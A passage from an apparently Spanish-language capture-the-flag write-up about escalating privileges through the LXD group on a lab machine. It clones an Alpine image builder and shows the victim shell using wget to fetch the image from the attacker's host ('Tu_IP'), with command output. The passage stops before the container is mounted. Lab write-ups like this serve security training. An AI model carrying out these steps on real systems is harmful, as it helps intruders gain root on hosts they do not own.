 Y con esto, terminamos la máquina.

<br>

<h3 id="lxd3">Escalando Privilegios Aprovechandonos del Grupo LXD y Sin Internet en la Máquina Víctima</h3>

En el siguiente blog, podemos encontrar una forma de crear una montura de todo el sistema con la herramienta **lxc**, siendo esta una forma en la que NO es necesario tener internet en la máquina víctima:
* <a href="https://www.hackingarticles.in/lxd-privilege-escalation/" target="_blank">Lxd Privilege Escalation</a>

Vamos a aplicar lo que dice el blog por pasos:

* Primero, descargamos la imagen que vamos a utilizar en nuestra máquina:
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
Clonando en 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42 (from 1)
Recibiendo objetos: 100% (50/50), 3.11 MiB | 5.63 MiB/s, listo.
Resolviendo deltas: 100% (15/15), listo.
```

* Entramos en el proyecto clonado y ahí debería estar un archivo comprimido que contiene la imagen:
```bash
ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
```


* En caso de que no lo tenga, ejecuta el archivo `build-alpine`:
```bash
/build-alpine
Determining the latest release... v3.21
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.21/main/x86_64
Downloading alpine-keys-2.5-r0.apk
...
```

* Enviamos el archivo comprimido a la máquina víctima dentro de la sesión actual, abriendo un servidor con **Python** y utilizando la herramienta **wget**:
```bash
concebolla@tortillapapas:~$ wget http://Tu_IP/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2025-03-23 21:14:01--  http://Tu_IP/alpine-v3.13-x86_64-20210218_0139.tar.gz
Conectando con Tu_IP:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3259593 (3.1M) [application/gzip]
Grabando a: «alpine-v3.13-x86_64-20210218_0139.tar.gz»
.
alpine-v3.13-x86_64-20210218_0139.tar.gz        100%[================>]   3.11M  --.-KB/s    en 0.04s   
.
2025-03-23 21:14:01 (85.7 MB/s) - «alpine-v3.13-x86_64-20210218_0139.tar.gz» guardado [3259593/3259593]
```

